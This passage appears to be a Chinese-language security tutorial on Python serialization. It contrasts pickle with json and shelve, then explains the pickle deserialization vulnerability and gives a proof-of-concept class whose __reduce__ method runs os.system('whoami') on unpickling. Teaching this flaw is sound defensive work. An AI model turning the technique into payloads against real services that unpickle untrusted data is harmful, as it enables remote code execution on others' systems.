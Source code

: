 

### json实现

pickle方法是Python中专有的序列化模块，和其他平台多少有点兼容问题，json作为更为标准的格式，具有更好的可读性（pickle是二进制数据）和跨平台性

### shelve模块

该模块不是很常用



## 0x02 反序列化漏洞原理

官方文档中说过，pickle是个不安全的模块，永远别去反序列化不信任的数据。

这一切都是因为__reduce__ 魔术方法，它在序列化的时候会完全改变被序列化的对象.类似于php的wakeup魔术方法，python中的__reduce__，可以在被反序列化的时候执行.类似于php的wakeup魔术方法，python中的__reduce__，可以在被反序列化的时候执行，而pickle.loads是会解决import 问题，对于未引入的module会自动尝试import。这也意味着可以导入命令执行的包进行操作

```
*import*pickle
*import*os

*class*eval_code(object):

    *def*__reduce__(self):
        *return*(os.system,(*'whoami'*,))


eval_whoami = eval_code()

mess = pickle.dumps(eval_whoami)

print(mess)

shadow = pickle.loads(mess)

```

![](README/luffy2.png)

